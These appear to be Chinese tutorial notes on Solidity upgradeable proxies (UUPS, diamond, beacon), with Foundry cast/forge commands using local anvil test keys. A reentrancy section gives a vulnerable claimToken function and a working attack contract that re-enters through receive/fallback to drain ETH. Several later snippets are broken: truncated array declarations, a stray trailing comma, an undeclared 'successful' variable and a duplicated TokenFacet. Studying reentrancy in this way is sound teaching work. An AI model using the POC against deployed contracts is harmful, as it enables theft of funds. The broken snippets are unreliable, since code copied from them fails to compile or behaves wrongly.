cast send --rpc-url 127.0.0.1:8545 --private-key 0xac0974bec39a17e36ba4a6b4d238ff944bacb478cbed5efcae784d7bf4f2ff80 0x5FC8d32690cc91D4c39d9d3abcBD16989F875707 "depositERC20(address,uint256)" 0xB7f8BC63BbcaD18155201308C8f3540b07f84F5e 10000000000000000

# grantRewards
cast send --rpc-url 127.0.0.1:8545 --private-key 0xac0974bec39a17e36ba4a6b4d238ff944bacb478cbed5efcae784d7bf4f2ff80 0x5FC8d32690cc91D4c39d9d3abcBD16989F875707 "grantRewards(address,address,uint256)" 0xEeeeeEeeeEeEeeEeEeEeeEEEeeeeEeeeeeeeEEeE 0xee2E207D30383430a815390431298EBa3c1C8c2d 1000000000000000000
cast call --rpc-url 127.0.0.1:8545 0x5FC8d32690cc91D4c39d9d3abcBD16989F875707 "queryRewards(address)(uint256)" 0xEeeeeEeeeEeEeeEeEeEeeEEEeeeeEeeeeeeeEEeE --from 0xee2E207D30383430a815390431298EBa3c1C8c2d

# eth balance
cast balance 0xee2E207D30383430a815390431298EBa3c1C8c2d --rpc-url 127.0.0.1:8545

# claim
cast send --rpc-url 127.0.0.1:8545 --private-key 0xc30e09a462d429803c0592db0c52a9cb0bdcbf80fb6cfe3ea351c9fd67e103c1 0x5FC8d32690cc91D4c39d9d3abcBD16989F875707 "claimToken(address)" 0xEeeeeEeeeEeEeeEeEeEeeEEEeeeeEeeeeeeeEEeE

# 判断一个地址是否是合约地址
cast code 0xCe85503De9399D4dECa3c0b2bb3e9e7CFCBf9C6B --rpc-url 127.0.0.1:8545

cast call 0x5FC8d32690cc91D4c39d9d3abcBD16989F875707 --rpc-url 127.0.0.1:8545 "getValue()(uint256)"
```

```
forge script ./script/TreasureManagerV2Script.s.sol:TreasureManagerV2Script --rpc-url 127.0.0.1:8545 --private-key 0xac0974bec39a17e36ba4a6b4d238ff944bacb478cbed5efcae784d7bf4f2ff80 --broadcast
```

### Help

```shell
$ forge --help
$ anvil --help
$ cast --help
```
~~~

- 重入攻击（先状态改变再交易）

```javascript
function claimToken(address tokenAddress) external {
    require(tokenAddress != address(0), "Invalid token address");
    uint256 rewardAmount = userRewardAmounts[msg.sender][tokenAddress];
    require(rewardAmount > 0, "No reward available");
    if (tokenAddress == ethAddress) {
        (bool success, ) = msg.sender.call{value: rewardAmount}("");
        require(success, "ETH transfer failed");
    } else {
        IERC20(tokenAddress).safeTransfer(msg.sender, rewardAmount);
    }
    userRewardAmounts[msg.sender][tokenAddress] = 0; //X
    tokenBalances[tokenAddress] -= rewardAmount; //X
}
```

- 攻击的 POC 

```java
// SPDX-License-Identifier: UNLICENSED
pragma solidity ^0.8.0;

import "@openzeppelin/contracts/token/ERC20/IERC20.sol";
import "../src/TreasureManager.sol";

contract AttackTreasureManager {
    TreasureManager public treasureManager;
    address payable public owner;
    uint256 public attackAmount;

    constructor(address _treasureManager) {
        treasureManager = TreasureManager(payable(_treasureManager));
        owner = payable(msg.sender);
    }

    function attackClaimToken(address tokenAddress) external {
        attackAmount = 0;
        treasureManager.claimToken(tokenAddress);
    }

    receive() external payable {
        reentrance();
    }

    fallback() external payable {
        reentrance();
    }

    function reentrance() internal {
        address ethAddress = treasureManager.ethAddress();
        uint left = treasureManager.userRewardAmounts(
            address(this),
            ethAddress
        );
        attackAmount += left;
        if (treasureManager.tokenBalances(ethAddress) > attackAmount + left) {
            treasureManager.claimToken(ethAddress);
        }
    }

    function withdraw() public {
        payable(owner).transfer(address(this).balance);
    }
}
```

# 四.UUPS 升级模式

## 1. UUPS 简介



UUPS模式（Universal Upgradeable Proxy Standard)采用了特殊的设计理念：

- **代理合约**（Proxy）：
  - 极简结构，仅负责存储实现合约地址（implementation slot）。
  - 不存放升级逻辑。
  - 将所有调用以`delegatecall`的方式委托给逻辑合约执行。
- **逻辑合约**（Implementation）：
  - 实现全部业务逻辑和存储变量。
  - 包含升级逻辑方法（`upgradeTo`函数）。
  - 负责实际的升级权限控制（通常仅Owner可调用）。
- **升级合约**：
  - 是新的逻辑合约，实现新的业务逻辑。
  - 继承原逻辑合约，以确保状态变量布局一致（防止插槽错位）


## 2. 实际案例

### (1) 项目设置

首先确保你的项目包含必要的依赖：

```
# 安装OpenZeppelin合约和升级插件
forge install OpenZeppelin/openzeppelin-contracts --no-commit
forge install OpenZeppelin/openzeppelin-contracts-upgradeable --no-commit

# 安装Foundry升级库
forge install OpenZeppelin/openzeppelin-foundry-upgrades --no-commit
```

在 `foundry.toml` 中启用存储布局：

```
[profile.default]
src = "src"
out = "out"
libs = ["lib"]
ast = true
ffi = true
extra_output = ["storageLayout"]
```

### (2) 逻辑合约 

**UUPS 的逻辑合约需要继承`UUPSUpgradeable`，并实现`_authorizeUpgrade`函数。**

- UUPSContractV1

```typescript
// SPDX-License-Identifier: UNLICENSED
pragma solidity ^0.8.20;

import "@openzeppelin/contracts/access/Ownable.sol";
import "@openzeppelin/contracts-upgradeable/proxy/utils/Initializable.sol";
import "@openzeppelin/contracts-upgradeable/proxy/utils/UUPSUpgradeable.sol";
import "@openzeppelin/contracts/proxy/ERC1967/ERC1967Proxy.sol";
import "@openzeppelin/contracts/proxy/ERC1967/ERC1967Utils.sol";
import "@openzeppelin/contracts-upgradeable/access/OwnableUpgradeable.sol";


contract UUPSContractV1 is Initializable, OwnableUpgradeable, UUPSUpgradeable {
    uint256 public value;

    /// @custom:oz-upgrades-unsafe-allow constructor
    constructor() {
        _disableInitializers();
    }

    function initialize(address initialOwner) public initializer {
        __Ownable_init(initialOwner);
        __UUPSUpgradeable_init();
        value = 10000;
    }

    function setValue(uint256 _value) public  {
        value = _value;
    }

    function _authorizeUpgrade(address newImplementation) internal override onlyOwner {}
}
```

- UUPSContractV2

```typescript
// SPDX-License-Identifier: UNLICENSED
pragma solidity ^0.8.20;

import "@openzeppelin/contracts/access/Ownable.sol";
import "@openzeppelin/contracts-upgradeable/proxy/utils/Initializable.sol";
import "@openzeppelin/contracts-upgradeable/proxy/utils/UUPSUpgradeable.sol";
import "@openzeppelin/contracts/proxy/ERC1967/ERC1967Proxy.sol";
import "@openzeppelin/contracts/proxy/ERC1967/ERC1967Utils.sol";
import "@openzeppelin/contracts-upgradeable/access/OwnableUpgradeable.sol";

/// @custom:oz-upgrades-from UUPSContractV1
contract UUPSContractV2 is Initializable, OwnableUpgradeable, UUPSUpgradeable {
    uint256 public value;
    uint256 public value2;

    // 移除原有的initialize和constructor函数，避免冲突因为前一个版本已经初始化了
    
    ///@custom:oz-upgrades-validate-as-initializer
    function initializeV2 (address initialOwner) public reinitializer(2) {
        // 重新初始化父合约（即使已经初始化过，使用 reinitializer(2) 是安全的）
        __Ownable_init(initialOwner);
        __UUPSUpgradeable_init();
        value = 10000;
        value2 = 100; 
    }

    function setValue(uint256 _value) public onlyOwner {
        value = _value;
    }

    function _authorizeUpgrade(address newImplementation) internal override onlyOwner {}

    function incrementValue() public onlyOwner {
        value += 1;
    }

    function upgradeCall() public onlyOwner {
        value = 100;
    }
}
```

### (3) 部署脚本

**方法一：（部署UUPS需要部署逻辑合约和代理合约（ERC1967Proxy），然后通过代理调用初始化函数。）**

**方法二： 使用Foundry upgrade库**

```
address proxy = Upgrades.deployUUPSProxy(
    "MyContract.sol",
    abi.encodeCall(MyContract.initialize, ("arguments for the initialize function"))
);
```

- UUPSContractV1Script

```java
// SPDX-License-Identifier: MIT
pragma solidity ^0.8.20;

// import "@openzeppelin/contracts/proxy/ERC1967/ERC1967Proxy.sol"; //基础代理 定义了代理合约如何存储和访问逻辑合约地址的存储槽位置
import { Upgrades } from "@openzeppelin-foundry-upgrades/Upgrades.sol"; //foundry 提供的封装了一系列upgrade相关函数
import "forge-std/Script.sol";
import "../src/UUPSContractV1.sol";


contract UUPSContractV1Script is Script {
    address public proxy;

    function run() public {
        uint256 deployerPrivateKey = vm.envUint("PRIVATE_KEY");
        address deployerAddress = vm.addr(deployerPrivateKey);
        console.log("Deploying contracts with the account:", deployerAddress);

        vm.startBroadcast(deployerPrivateKey);
		// 部署 V1 实现合约
        UUPSContractV1 implementation = new UUPSContractV1();

        console.log("UUPSContractV1 address:", address(implementation));
        
        bytes memory data = abi.encodeCall(implementation.initialize, deployerAddress);
		
        //方法一：使用ERC1967Proxy
        // 1.将代理合约的逻辑地址设置为 implementation 
        // 2.通过 delegatecall 使用 data 调用逻辑合约的 initialize 函数
        ERC1967Proxy proxy = new ERC1967Proxy(address(implementation), data);
        //方法二：使用Foundry upgrade库,外部封装
 		//proxy = Upgrades.deployUUPSProxy("UUPSContractV1.sol:UUPSContractV1", data);
        
        vm.stopBroadcast();

        console.log("UUPS Proxy Address:", address(proxy));
    }
}
```

### (4) 升级脚本

部署新的逻辑合约，然后通过旧逻辑合约的升级函数升级。

- UUPSContractV2Script

方法一：

```
// 1. 部署 V2 实现
UUPSContractV2 v2Implementation = new UUPSContractV2();

// 2. 通过代理升级
UUPSContractV1 proxyV1 = UUPSContractV1(proxy);
proxyV1.upgradeTo(address(v2Implementation));

// 3. 初始化 V2 的新功能
UUPSContractV2 proxyV2 = UUPSContractV2(proxy);
proxyV2.initializeV2();
```

方法二：使用Foundry upgrade库：

```typescript
// SPDX-License-Identifier: UNLICENSED
pragma solidity ^0.8.20;

import {Script, console} from "forge-std/Script.sol";
import { Upgrades } from "@openzeppelin-foundry-upgrades/Upgrades.sol"; //foundry 提供的自动化的升级流程

import "../src/UUPSContractV2.sol";


contract UUPSContractV2Script is Script {
    address public proxy = 0xe7f1725E7734CE288F8367e1Bb143E90bb3F0512;

    function run() public {
        uint256 deployerPrivateKey = vm.envUint("PRIVATE_KEY");
        address deployerAddress = vm.addr(deployerPrivateKey);

        console.log("Deploying Address:", deployerAddress);

        vm.startBroadcast(deployerPrivateKey);

        // 自动部署 (自动部署 V2 实现合约, 自动升级实现地址, 自动调用初始化函数,自动进行存储布局验证)
        Upgrades.upgradeProxy(
            address(proxy),   // 代理合约地址
            "UUPSContractV2.sol:UUPSContractV2",  // 合约标识符（不是地址！）
            abi.encodeCall(UUPSContractV2.initializeV2, (deployerAddress)), // 调用 initializeV2
        );

        //(bool successful,) = address(proxy).call(abi.encodeWithSelector(UUPSContractV2.incrementValue.selector));
		UUPSContractV2 proxyV2 = UUPSContractV2(proxy);
        proxyV2.incrementValue();
        
        console.log("incrementValue success:", successful);

        vm.stopBroadcast();
    }
}
```


## 3. UUPS 和透明代理如何选用(对比)

- UUPS 升级的过程管理比较复杂一点，在 UUPS 模式中，升级逻辑嵌入在逻辑合约（如 v0、v1、v2）中，而不是在代理合约中。

  代理合约通过 `delegatecall` 委托调用逻辑合约的函数。

  升级过程是独立的：每次升级都是直接改变代理合约的逻辑地址，不需要依赖中间版本（如 v1）。

- 透明代理是比较简单，不需要管理各个版本的逻辑合约，只需要升级到指定逻辑合约就行，操作也相对简单一些。

| 特性             | UUPS (Universal Upgradeable Proxy Standard) | 透明代理 (Transparent Proxy) |
| :--------------- | :------------------------------------------ | :--------------------------- |
| **升级逻辑位置** | 在逻辑合约中                                | 在代理合约中                 |
| **Gas 成本**     | ⭐⭐⭐⭐⭐ (更低)                                | ⭐⭐⭐⭐ (稍高)                  |
| **复杂性**       | ⭐⭐⭐⭐ (较复杂)                               | ⭐⭐⭐⭐⭐ (较简单)               |
| **安全性**       | ⭐⭐⭐⭐                                        | ⭐⭐⭐⭐⭐                        |
| **部署大小**     | 较小                                        | 较大                         |


# 五.钻石代理

## 1. 钻石代理简介

智能合约钻石代理升级（Diamond Proxy Upgrade）是一种以太坊生态的高级合约升级方案，主要用于实现复杂智能合约的可扩展性和模块化升级。它基于 **EIP-2535（Diamond Standard）**，允许在单个代理合约（Diamond）下，动态添加、替换或删除多个独立功能合约（称为 Facet），极大提升合约的灵活性。

## 2. 基本概念

Diamond 模式定义了一种合约设计架构，主要包含：

- **Diamond 合约**：
  - 中心代理合约，用户通过此合约进行所有交互。
  - 维护功能合约（Facet）的地址及其函数签名的映射关系（selector）。
  - 使用 delegatecall 将用户请求转发到对应的 Facet。
- **Facet 合约**：
  - 提供具体功能逻辑的合约，可以独立部署。
  - 不存储状态，而是使用 Diamond 中的共享存储。
- **DiamondCut 合约（升级管理器）**：管理 Diamond 合约内 Facet 合约的添加、替换或移除操作。是实现合约可升级性的关键。
- **共享存储（Diamond Storage）**：所有 Facet 通过代理模式共享统一的存储布局。

## 3. Diamond 代理合约架构图



- 一个代理合约对应多个逻辑合约，通过 DiamondCut 合约来调度

## 4. 完整案例

- LibDiamondStorage

```java
// SPDX-License-Identifier: UNLICENSED
pragma solidity ^0.8.20;

library LibDiamondStorage {
    bytes32 constant DIAMOND_STORAGE_POSITION = keccak256("diamond.standard.storage");

    struct DiamondStorage {
        mapping(bytes4 => address) facets;
        address owner;
        uint256 totalSupply;
        mapping(address => uint256) balances;
    }

    function diamondStorage() internal pure returns (DiamondStorage storage ds) {
        bytes32 position = DIAMOND_STORAGE_POSITION;
        assembly {
            ds.slot := position
        }
        return ds;
    }
}
```

- Diamond

```javascript
// SPDX-License-Identifier: UNLICENSED
pragma solidity ^0.8.20;

import { LibDiamondStorage } from "./libraries/LibDiamondStorage.sol";

contract Diamond {
    constructor(address _owner, address _init, bytes memory _initCalldata) {
        LibDiamondStorage.DiamondStorage storage ds = LibDiamondStorage.diamondStorage();
        ds.owner = _owner;

        if (_init != address(0)) {
            (bool success, ) = _init.delegatecall(_initCalldata);
            require(success, "Init failed");
        }
    }

    fallback() external payable {
        LibDiamondStorage.DiamondStorage storage ds = LibDiamondStorage.diamondStorage();
        address facet = ds.facets[msg.sig];
        require(facet != address(0), "Function does not exist");

        assembly {
            calldatacopy(0, 0, calldatasize())
            let result := delegatecall(gas(), facet, 0, calldatasize(), 0, 0)
            returndatacopy(0, 0, returndatasize())
            switch result
            case 0 { revert(0, returndatasize()) }
            default { return(0, returndatasize()) }
        }
    }

    receive() external payable {}
}
```

- TokenFacet

```java
// SPDX-License-Identifier: UNLICENSED
pragma solidity ^0.8.20;

import {LibDiamondStorage} from "../libraries/LibDiamondStorage.sol";

contract TokenFacet {
    event Transfer(address indexed from, address indexed to, uint256 amount);

    function initToken(uint256 initialSupply) external {
        LibDiamondStorage.DiamondStorage storage ds = LibDiamondStorage.diamondStorage();
        ds.totalSupply = initialSupply;
        ds.balances[msg.sender] = initialSupply;
        emit Transfer(address(0), msg.sender, initialSupply);
    }

    function transfer(address _to, uint256 _amount) external returns (bool) {
        LibDiamondStorage.DiamondStorage storage ds = LibDiamondStorage.diamondStorage();
        require(ds.balances[msg.sender] >= _amount, "Insufficient balance");

        ds.balances[msg.sender] -= _amount;
        ds.balances[_to] += _amount;
        emit Transfer(msg.sender, _to, _amount);
        return true;
    }

    function balanceOf(address account) external view returns (uint256) {
        LibDiamondStorage.DiamondStorage storage ds = LibDiamondStorage.diamondStorage();
        return ds.balances[account];
    }
}
```

- TokenFacet

```java
// SPDX-License-Identifier: UNLICENSED
pragma solidity ^0.8.20;

import {LibDiamondStorage} from "../libraries/LibDiamondStorage.sol";

contract TokenFacet {
    event Transfer(address indexed from, address indexed to, uint256 amount);

    function initToken(uint256 initialSupply) external {
        LibDiamondStorage.DiamondStorage storage ds = LibDiamondStorage.diamondStorage();
        ds.totalSupply = initialSupply;
        ds.balances[msg.sender] = initialSupply;
        emit Transfer(address(0), msg.sender, initialSupply);
    }

    function transfer(address _to, uint256 _amount) external returns (bool) {
        LibDiamondStorage.DiamondStorage storage ds = LibDiamondStorage.diamondStorage();
        require(ds.balances[msg.sender] >= _amount, "Insufficient balance");

        ds.balances[msg.sender] -= _amount;
        ds.balances[_to] += _amount;
        emit Transfer(msg.sender, _to, _amount);
        return true;
    }

    function balanceOf(address account) external view returns (uint256) {
        LibDiamondStorage.DiamondStorage storage ds = LibDiamondStorage.diamondStorage();
        return ds.balances[account];
    }
}
```

- TokenFacetV2

```java
// SPDX-License-Identifier: UNLICENSED
pragma solidity ^0.8.20;

import {LibDiamondStorage} from "../libraries/LibDiamondStorage.sol";

contract TokenFacetV2 {
    event Transfer(address indexed from, address indexed to, uint256 amount);
    event Burn(address indexed from, uint256 amount);

    function transfer(address _to, uint256 _amount) external returns (bool) {
        LibDiamondStorage.DiamondStorage storage ds = LibDiamondStorage.diamondStorage();
        require(ds.balances[msg.sender] >= _amount, "Insufficient balance");
        ds.balances[msg.sender] -= _amount;
        ds.balances[_to] += _amount;
        emit Transfer(msg.sender, _to, _amount);
        return true;
    }

    function burn(uint256 _amount) external {
        LibDiamondStorage.DiamondStorage storage ds = LibDiamondStorage.diamondStorage();
        require(ds.balances[msg.sender] >= _amount, "Insufficient balance");
        ds.balances[msg.sender] -= _amount;
        ds.totalSupply -= _amount;
        emit Burn(msg.sender, _amount);
    }

    function balanceOf(address account) external view returns (uint256) {
        LibDiamondStorage.DiamondStorage storage ds = LibDiamondStorage.diamondStorage();
        return ds.balances[account];
    }
}
```

- DeployDiamond

```javascript
// SPDX-License-Identifier: UNLICENSED
pragma solidity ^0.8.13;

import "forge-std/Script.sol";
import "../src/Diamond.sol";
import "../src/facets/TokenFacet.sol";
import {LibDiamondStorage} from "../src/libraries/LibDiamondStorage.sol";

contract DeployDiamond is Script {
    function run() external {
        uint256 deployerKey = vm.envUint("PRIVATE_KEY");
        vm.startBroadcast(deployerKey);

        TokenFacet tokenFacet = new TokenFacet();
        Diamond diamond = new Diamond(
            msg.sender,
            address(tokenFacet),
            abi.encodeWithSignature("initToken(uint256)", 1000000 ether)
        );

        console.log("Diamond deployed at:", address(diamond));
        console.log("TokenFacet deployed at:", address(tokenFacet));

        vm.stopBroadcast();
    }
}
```

- UpgradeDiamond

```java
// SPDX-License-Identifier: UNLICENSED
pragma solidity ^0.8.20;

import "forge-std/Script.sol";

import "../src/facets/TokenFacetV2.sol";
import {LibDiamondStorage} from "../src/libraries/LibDiamondStorage.sol";

interface IDiamondCut {
    enum FacetCutAction { Add, Replace, Remove }

    struct FacetCut {
        address facetAddress;
        FacetCutAction action;
        bytes4[] functionSelectors;
    }

    function diamondCut(FacetCut[] calldata _facetCuts, address _init, bytes calldata _calldata) external;
}

contract UpgradeDiamond is Script {
    address constant DIAMOND_ADDRESS=0xee2E207D30383430a815390431298EBa3c1C8c2d;

    function run() external {
        uint256 deployerKey = vm.envUint("PRIVATE_KEY");

        vm.startBroadcast(deployerKey);

        TokenFacetV2 tokenFacetV2 = new TokenFacetV2();

        bytes4[] ;
        selectors[0] = TokenFacetV2.transfer.selector;
        selectors[1] = TokenFacetV2.balanceOf.selector;
        selectors[2] = TokenFacetV2.burn.selector;

        IDiamondCut.FacetCut ;

        facetCuts[0] = IDiamondCut.FacetCut({
            facetAddress: address(tokenFacetV2),
            action: IDiamondCut.FacetCutAction.Replace,
            functionSelectors: selectors
        });

        IDiamondCut(DIAMOND_ADDRESS).diamondCut(facetCuts, address(0), "");
        console.log("TokenFacetV2 deployed at:", address(tokenFacetV2));

        vm.stopBroadcast();
    }
}
```

### 4.1 一个实际的案例



### 4.2**Diamond 升级优势**

- **无限扩展性**：无需担心单个合约代码大小限制（24KB），可随意添加新功能
- **模块化升级**：独立的 Facet 便于维护和审计,可以只升级某个功能模块（facet），更灵活 安全风险可控。
- **降低 Gas 成本**：使用 delegatecall 可节省部署成本

| 优势                                                         | 挑战                                                         |
| :----------------------------------------------------------- | :----------------------------------------------------------- |
| **突破合约大小限制**：通过模块化拆分，理论上合约功能可以无限扩展。 | **实现复杂**：架构比传统代理模式更复杂，学习和上手成本高。   |
| **支持模块化升级**：可以只升级某个功能模块（facet），更灵活，风险也更可控。 | **存储管理需谨慎**：需要精心设计存储布局，否则容易导致数据冲突或损坏。 |
| **降低 Gas 成本**：使用 delegatecall 可节省部署成本          | **社区工具链支持相对较弱**：例如OpenZeppelin库尚未官方支持，需要更多依赖社区解决方案。 |

### 4.3**应用场景**

- **设计 Diamond Storage:** 明确需要共享的状态变量和数据结构。
- **编写 Facet 合约:** Facet 仅实现业务逻辑，不直接定义状态变量，而引用共享状态。
- **部署 Diamond 合约:** 部署初始 Diamond 代理，并通过 DiamondCut 初始化。
- **升级或维护:** 通过 DiamondCut 升级接口管理 Facet，实现细粒度升级。

# 六.信标代理

## 1. 信标代理简介

- Beacon Proxy 模式是智能合约代理升级模式之一，由 OpenZeppelin 在**EIP-1967**中提出，主要用来实现多个代理合约共享同一个升级逻辑合约，便于集中管理与升级。
  - Beacon 合约存储实现implement合约地址，允许集中升级。
  - BeaconProxy 代理合约： 委托调用 Beacon 中存储的实现合约逻辑。
- 特点：
  - 统一管理多个合约实例的升级。
  - 节省 Gas 成本，适用于批量部署类似逻辑的合约场景（如NFT）
  - EigenLayer strategy 和 EigenPod 多个代理合约共享一个逻辑合约

## 2. 信标代理合约结构示意图



- Beacon：提供升级逻辑地址。

- BeaconProxy：将调用通过 delegatecall 转发到逻辑合约

  

## 3. 信标代理vs 最小代理

| 对比维度     |                         **最小代理**                         |                         **信标代理**                         |
| :----------- | :----------------------------------------------------------: | :----------------------------------------------------------: |
| **核心目的** |              节省**部署成本**，批量创建合约副本              |               实现**可升级性**，并优化升级效率               |
| **升级方式** |                 **不可升级**，部署后逻辑固定                 | **可升级**，通过更换信标合约指向的新逻辑合约，一次性升级所有代理 |
| **存储模式** |                 每个代理有**独立的存储**状态                 |     通常与最小代理类似，但**逻辑合约地址**从信标合约读取     |
| **Gas成本**  |            **部署成本极低** (运行时代码仅55字节)             |               升级成本低（一次升级，全部生效）               |
| **适用场景** | 需要大量部署**相同逻辑、不可升级**的合约实例，例如多签钱包、用户个人钱包等 |              需要**批量升级**一组代理合约的逻辑              |

# 七.总结

透明代理一直会使用，UUPS 未来第一个实战 FishCake 里面会遇到，钻石代理应该遇不到了，信标代理在 Eigenlayer 和我们实战项目里面都会遇到。

- 重点掌握
  - 透明代理
  - UUPS 
  - 最小代理
- 了解
  - 钻石代理
  - 信标代理